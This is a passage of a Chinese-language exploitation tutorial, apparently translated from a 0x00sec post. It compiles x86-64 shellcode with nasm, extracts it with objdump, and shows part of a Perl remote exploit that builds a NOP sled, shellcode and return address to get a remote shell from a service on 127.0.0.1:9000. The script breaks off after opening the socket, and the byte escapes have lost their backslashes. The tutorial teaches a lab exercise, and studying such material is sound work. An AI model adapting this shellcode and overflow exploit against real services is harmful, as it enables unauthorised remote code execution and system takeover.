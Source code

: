 ```
```

对于不太容易理解的地方，我已经添加了相应的注释。同时，你可能也注意到了，代码里使用了许多的push/pop指令，这是因为一个PUSH/POP指令对占用2个字节，而MOV R1，R2指令则需要占用3个字节。虽然这会代码变得非常丑，但是却能节约一些空间…实际上也没有节约太多的地方，所以也算不上一个好主意。无论如何，您可以随意改进它，并欢迎在评论中发布您自己的版本。

<br>

**生成Shellcode**

现在，我们需要生成相应的shellcode，同时，其格式必须适合将其发送到远程服务器才行。为此，我们首先需要编译代码，然后从编译的文件中提取机器代码。编译代码非常简单，具体如下所示：

```
nasm -f elf64 -o rsh.o rsh.asm
```

当然，从目标文件中获取二进制数据的方法有很多。我们这里使用的方法是生成具有易于添加到Perl或C程序中的格式的字符串。

```
for i in $(objdump -d rsh.o -M intel |grep "^ " |cut -f2); do echo -n 'x'$i; done;echo
```

上面的两个命令将产生以下shellcode：

```
x48x31xc0x50x50x50x5ex5ax50x5fxb0x20x0fx05x48xffxc8x50x5fxb0x21x0fx05x48xffxc6x48x89xf0x3cx02x75xf2x52x48xbfx2fx2fx62x69x6ex2fx73x68x57x54x5fx52x5exb0x3bx0fx05
```

接下来，我们就需要开始编写漏洞利用代码了。

<br>

**漏洞利用代码**

目前为止，我们已经搭设了一个带有远程利用漏洞的系统。同时，也了解了如何在低安全环境中利用缓冲区溢出漏洞，并生成了一个用于在远程系统上运行的shellcode。现在我们需要一个漏洞利用代码，把所有这些整合起来，从而获得我们梦寐以求的远程shell。

当然，编写漏洞利用代码的语言有很多，不过这里选用的是自己最熟悉的Perl。

我们的漏洞利用代码具体如下所示：

```
#!/usr/bin/perl
use IO::Select;
use IO::Socket::INET;
$|=1;
 
print "Remote Exploit Example";
print "by 0x00pf for 0x00sec :)nn";
 
# You may need to calculate these magic numbers for your system
$addr = "x10xddxffxffxffx7fx00x00"; 
$off = 264;
 
# Generate the payload
$shellcode = "x48x31xc0x50x50x50x5ex5ax50x5fxb0x20x0fx05x48xffxc8x50x5fxb0x21x0fx05x48xffxc6x48x89xf0x3cx02x75xf2x52x48xbfx2fx2fx62x69x6ex2fx73x68x57x54x5fx52x5exb0x3bx0fx05";
 
$nops = $off - length $shellcode;
$payload = "x90" x $nops . $shellcode . $addr;
 
$plen = length $payload;
$slen = length $shellcode;
print "SLED $nops Shellcode: $slen Payload size: $plenn";
 
# Connect
my $socket = new IO::Socket::INET (
    PeerHost =&gt; '127.0.0.1',
    PeerPort =&gt; '9000',
    Proto =&gt; 'tcp',
    );
# Set up select for asynchronous read from the server
```
